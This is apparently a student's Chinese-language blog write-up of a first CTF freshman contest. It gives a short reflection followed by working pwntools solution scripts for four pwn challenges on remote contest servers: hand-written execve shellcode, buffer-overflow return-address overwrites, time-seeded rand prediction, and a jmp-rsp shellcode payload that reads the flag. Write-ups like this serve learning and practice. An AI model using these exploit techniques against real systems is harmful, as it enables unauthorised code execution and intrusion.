 ```yaml
---
title: "第一场CTF比赛"
description: "第一场CTF比赛"
pubDate: "Apr 15 2023"
published: true
heroImage: "../../assets/1.jpg"
tags: ["技术"]
---
```

## 第一次参加CTF新生赛总结与反思
因为昨天学校那边要进行天梯模拟赛，所以被拉过去了。<br />16点30分结束，就跑回来宿舍开始写。<br />第一题和第二题一下子getshell，不用30分钟，可能我没想那么多，对比网上的WP，自己和他们有点不太一样，比较暴力。<br />大概17点10的时候，写第三题，可能自己第一次遇到随机数问题，我当时的想法是网上有没有随机数种子的工具，查了一下，还真有这个库。说明了pwntools库是个宝藏，自己平时应该抽空研究一下那个库，利用好他，成为一把好工具。<br />后面第三题，刚结束的时候，写出来了。其实思路没有错，就是自己的脚本写的时候，想让代码看起来可读性更高（可能以前写开发项目写习惯了，强迫症），然后多取了一次随机数，导致和远程那边不同步。后面不知道怎么的，把那个变量删了，就好了，当时傻逼了。<br />第四题知道是orw题目，目标是读flag，但是不会写shellcode。只能说，有思路，写不出，所以后面也应该提升自己的shellcode能力。不能只会写那种比较固定的shellcode。<br />虽然不知道其他人情况如何，但是自己第一次参加，接触pwn还没有一个月，学习反馈还是挺满意。<br />一路也遇到了很多师傅，结交很多朋友！继续努力！
## 比赛题目总结（核心，一定要学会shellcode！）
> PS：以下题目的保护权限都开得很少！！！
> 所以就不贴图checksec图片了！！！
> 要获得flag，本次比赛关键在于：会自己写简短的shellcode，会使用随机数库。

### Shellcode（编写短shell）
> 题目思路很简单，就是shellcode，不过长度有限制。
> 我是自己手改pwntools。

使用pwntools生成的，本质就是执行/* execve(path='/bin///sh', argv=['sh'], envp=0) */
```python
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```
那么开始手搓，搞定！
> 注意，32位是int0x80，64位是syscall

```python

shellcode='''
mov rbx, 0x68732f6e69622f  
push rbx
push rsp 
pop rdi
xor esi, esi               
xor edx, edx            
push 0x3b
pop rax
syscall
'''
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727777007-a60311bc-38b1-4da3-94dc-fddf9e9e4f8d.png#averageHue=%23060403&clientId=uddbdf830-9bbd-4&from=paste&height=319&id=udd613c04&originHeight=479&originWidth=1274&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=53472&status=done&style=none&taskId=u039c4f2f-78df-4a74-ad8d-78661bc973a&title=&width=849.3333333333334)
```python
from pwn import *
context(log_level = 'debug',arch ='amd64',os = 'linux')
#io = process('./pwn2')
io = remote('node6.anna.nssctf.cn',28961)
io.recvuntil(b'Please.')

shellcode='''
mov rbx, 0x68732f6e69622f  
push rbx
push rsp 
pop rdi
xor esi, esi               
xor edx, edx            
push 0x3b
pop rax
syscall
'''

io.sendline(asm(shellcode))

io.recvuntil(b"start!")

payload =  b'a' * (0xa + 8 ) + p64(0x6010A0)

io.sendline(payload)

io.interactive()
```
### EASY PWN（直接暴力）
> 不用想那么多，直接随便输入垃圾数据即可
> 因为只要V5大于0就ok了，甚至偏移都不用想，直接乱输入
> ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727698637-05acd4de-d886-421d-820b-aca7f36dea93.png#averageHue=%23040301&clientId=uddbdf830-9bbd-4&from=paste&height=700&id=u55b26be6&originHeight=1050&originWidth=1005&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=88239&status=done&style=none&taskId=u6e73728f-42a0-4f46-80b2-edd5976d13f&title=&width=670)

```python
from pwn import *
context(log_level = 'debug',arch ='amd64',os = 'linux')
#io = process('./easypwn')
io = remote('node6.anna.nssctf.cn',28962)
payload = b'\x00'
payload = payload.ljust(0x30,b'a')
io.sendline(payload)
#io.sendlineafter(b'Password:',payload)

io.interactive()
```
### 真男人下120层（随机数库）
> 第一次认识，随机数这个库，然后没有什么难的
> 暴力循环120次即可
> 感觉一点都不pwn
> 注意脚本编写时候，别自作多情多取一次
> ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727860579-93511b92-b3f9-454c-916a-3fcde4b6a841.png#averageHue=%23040201&clientId=uddbdf830-9bbd-4&from=paste&height=358&id=u8f80025a&originHeight=537&originWidth=1581&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=47424&status=done&style=none&taskId=uc5005af7-56fc-4133-bc4b-2ed1798a063&title=&width=1054)

```python
from  pwn import *
from  ctypes import *
#context(log_level = 'debug',arch ='amd64',os = 'linux')
#io = process('./bin')
io=remote('node6.anna.nssctf.cn',28130)
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

srand = libc.srand(libc.time(0))
srand = libc.srand(srand % 3 - 1522127470)
io.recvuntil('Floor')

for i in range(121):
     io.sendline(str(libc.rand( ) % 4 + 1).encode( ))

io.interactive()

```
### Random（绕沙箱加短脚本）
> 程序禁了 execv，没开 NX，有 ‘jmp rsp’ 这么一个 gadget，所以往栈上写的 shellcode 是可执行且能利用到的。
> 很明显，是要读flag
> 先用pwn生成一个cat
> 用ljust左对齐抬高到0x28
> 返回地址为jmp rsp
> 填充 asm('sub rsp,0x30;call rsp')
> 那么返回的时候，执行jmp rsp，即asm('sub rsp,0x30;call rsp')，然后cat flag
> 太妙了！！！第一次见到这样的！

```python
    jmp=0x40094E
    shellcode=asm(shellcraft.cat('flag'))
    shellcode=shellcode.ljust(0x28,b'\x00')
    payload=shellcode+p64(jmp)+asm('sub rsp,0x30;call rsp')
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727956589-d7bb4c33-467c-40a0-b3dc-8d8ee7bec955.png#averageHue=%23030202&clientId=uddbdf830-9bbd-4&from=paste&height=665&id=u244b8bdf&originHeight=998&originWidth=1331&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=82620&status=done&style=none&taskId=u2b5945ba-fda3-4f65-a5a9-5e6b8d3abc2&title=&width=887.3333333333334)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1681727966018-1eda846a-bdde-4eb1-b528-c36331666492.png#averageHue=%23070604&clientId=uddbdf830-9bbd-4&from=paste&height=142&id=u9f26ea37&originHeight=213&originWidth=838&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=17430&status=done&style=none&taskId=uabe194ae-9f33-4f93-b9bc-bb83889f606&title=&width=558.6666666666666)
```python
from pwn import *
from ctypes import *
context(os='linux',arch='amd64',log_level='debug')
io=remote('node5.anna.nssctf.cn',28933)
#io=process('./RANDOM')

libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
srand =  libc.srand(libc.time(0))

for i in range(100):
    io.sendlineafter('please input a guess num:',str(libc.rand( )%50).encode( ))
    io.recvline()
    jmp=0x40094E
    shellcode=asm(shellcraft.cat('flag'))
    shellcode=shellcode.ljust(0x28,b'\x00')
    payload=shellcode+p64(jmp)+asm('sub rsp,0x30;call rsp')
    io.send(payload)
    io.interactive()
```
